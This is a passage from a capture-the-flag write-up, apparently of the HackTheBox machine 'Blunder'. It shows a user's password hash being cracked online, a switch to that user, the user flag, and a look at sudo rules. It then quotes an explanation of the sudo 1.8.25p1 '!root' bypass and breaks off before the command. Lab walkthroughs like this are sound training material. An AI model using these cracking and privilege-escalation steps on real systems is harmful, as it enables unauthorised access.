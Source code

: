 So, `hugo` is `admin`

User: admin
hash: faca404fd5c0a31cf1897b823c695c85cffeb98d
salt: none!

Hugo's password is unencrypted. Ran it through JtR and then entered it into [Crackstation.net](http://crackstation.net)
 * Crackstation came thorugh first with the result
 * password: Password120

`su hugo` with the password above

```console
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ id
uid=1001(hugo) gid=1001(hugo) groups=1001(hugo)
```
went to `/home/hugo` and obtained `user.txt`
User flag: bf5+++++++~[takeAbreath]+++++++

### Hugo
Can't SSH as that port isn't open.

Checked `sudo -l`

```Console
hugo@blunder:~/.ssh$ sudo -l
sudo -l
Password: Password210

Sorry, try again.
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Don't have access to `su` with his username
```console
hugo@blunder:~/.ssh$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```
Checked this version in `searchsploit`. It is exploitable. Googled 'sudo 1.8.25p1 privilege escalation and [this article](https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/) came up as the first result. It explains the vulnerability:
> ...it appears that this vulnerability allows to bypass Sudo rules that have been setup with the “!” symbol, to specify that a user should not
> be able to run a certain command as root (or any other user). The syntax of Sudo rules is as follows:
> 
>     The user the rule applies to
>     The user/group the command can be executed as
>     The allowed command(s)
> 
> For example:
> 
> `john (jack, jack) cp`
> 
> The above willl mean that the john user can execute the “cp” command as the jack user/group
> 
> Through this exploit, the rule can be bypassed by issuing the following command: